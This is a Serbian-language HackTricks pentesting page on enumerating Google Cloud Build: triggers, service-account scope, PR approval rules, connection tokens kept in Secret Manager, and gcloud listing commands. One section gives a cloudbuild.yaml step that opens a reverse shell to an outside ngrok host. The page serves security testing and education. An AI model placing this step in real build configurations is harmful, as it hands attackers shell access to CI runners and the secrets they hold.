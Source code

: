 # GCP - Cloud Build Enum

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

Google Cloud Build je upravljana CI/CD platforma koja **automatski gradi** i objavljuje softver, integrišući se sa **repozitorijumima izvornog koda** i podržavajući širok spektar programskih jezika. Omogućava **programerima da automatski grade, testiraju i implementiraju kod** dok pruža fleksibilnost za prilagođavanje koraka izgradnje i radnih tokova.

Svaki Cloud Build Trigger je **povezan sa Cloud Repozitorijumom ili direktno povezan sa spoljnim repozitorijumom** (Github, Bitbucket i Gitlab).

> [!TIP]
> Nisam mogao da vidim nijedan način da ukradem Github/Bitbucket token odavde ili iz Cloud Repozitorijuma jer se kada se repo preuzme, pristupa putem [https://source.cloud.google.com/](https://source.cloud.google.com/) URL-a i Github se ne pristupa od strane klijenta.

### Events

Cloud Build može biti pokrenut ako:

- **Push na granu**: Odredite granu
- **Push novog taga**: Odredite tag
- **Pull request**: Odredite granu koja prima PR
- **Ručno pozivanje**
- **Pub/Sub poruka:** Odredite temu
- **Webhook događaj**: Izložiće HTTPS URL i zahtev mora biti autentifikovan tajnom

### Execution

Postoje 3 opcije:

- A yaml/json **koji specificira komande** za izvršenje. Obično: `/cloudbuild.yaml`
- Samo jedan koji može biti specificiran “inline” u web konzoli i u cli
- Najčešća opcija
- Relevantno za neautentifikovani pristup
- A **Dockerfile** za izgradnju
- A **Buildpack** za izgradnju

### SA Permissions

**Servisni nalog ima `cloud-platform` opseg**, tako da može **koristiti sve privilegije.** Ako **nije specificiran SA** (kao kada se radi submit) koristiće se **podrazumevani SA** `<proj-number>@cloudbuild.gserviceaccount.com`.

Podrazumevano, nijedna dozvola nije data, ali je prilično lako dati neku:

<figure><img src="../../../images/image (16).png" alt=""><figcaption></figcaption></figure>

### Approvals

Moguće je konfigurisati Cloud Build da **zahteva odobrenja za izvršenja izgradnje** (onemogućeno podrazumevano).

### PR Approvals

Kada je okidač PR, jer **bilo ko može da izvrši PR-ove na javnim repozitorijumima**, bilo bi veoma opasno samo **dozvoliti izvršenje okidača sa bilo kojim PR-om**. Stoga, podrazumevano, izvršenje će biti **automatsko samo za vlasnike i saradnike**, a da bi se izvršio okidač sa PR-ovima drugih korisnika, vlasnik ili saradnik mora komentarisati `/gcbrun`.

<figure><img src="../../../images/image (339).png" alt="" width="563"><figcaption></figcaption></figure>

### Connections & Repositories

Konekcije se mogu kreirati preko:

- **GitHub:** Prikazaće OAuth prompt koji traži dozvole za **dobijanje Github tokena** koji će biti sačuvan unutar **Secret Manager-a.**
- **GitHub Enterprise:** Tražiće da se instalira **GithubApp**. **Token za autentifikaciju** sa vašeg GitHub Enterprise host-a biće kreiran i sačuvan u ovom projektu kao **Secret Manager** tajna.
- **GitLab / Enterprise:** Morate **obezbediti API pristupni token i Read API pristupni token** koji će biti sačuvani u **Secret Manager-u.**

Kada se konekcija generiše, možete je koristiti za **povezivanje repozitorijuma kojima Github nalog ima pristup**.

Ova opcija je dostupna putem dugmeta:

<figure><img src="../../../images/image (17).png" alt=""><figcaption></figcaption></figure>

> [!TIP]
> Imajte na umu da su repozitorijumi povezani ovom metodom **samo dostupni u Triggers koristeći 2. generaciju.**

### Connect a Repository

Ovo nije isto što i **`konekcija`**. Ovo omogućava **različite** načine za dobijanje **pristupa Github ili Bitbucket** repozitorijumu, ali **ne generiše objekat konekcije, već generiše objekat repozitorijuma (1. generacija).**

Ova opcija je dostupna putem dugmeta:

<figure><img src="../../../images/image (18).png" alt=""><figcaption></figcaption></figure>

### Storage

Ponekad Cloud Build će **generisati novu skladište za čuvanje datoteka za okidač**. Ovo se dešava, na primer, u primeru koji GCP nudi sa:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Kreiran je Storage bucket pod nazivom [security-devbox_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false&project=security-devbox) za čuvanje `.tgz` datoteke sa datotekama koje će se koristiti.

### Dobijanje shel-a
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
Инсталирајте gcloud унутар cloud build:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Enumeration

Možete pronaći **osetljive informacije u konfiguracijama gradnje i logovima**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Eskalacija privilegija

{{#ref}}
../gcp-privilege-escalation/gcp-cloudbuild-privesc.md
{{#endref}}

### Neautentifikovani pristup

{{#ref}}
../gcp-unauthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md
{{#endref}}

### Post eksploatacija

{{#ref}}
../gcp-post-exploitation/gcp-cloud-build-post-exploitation.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}
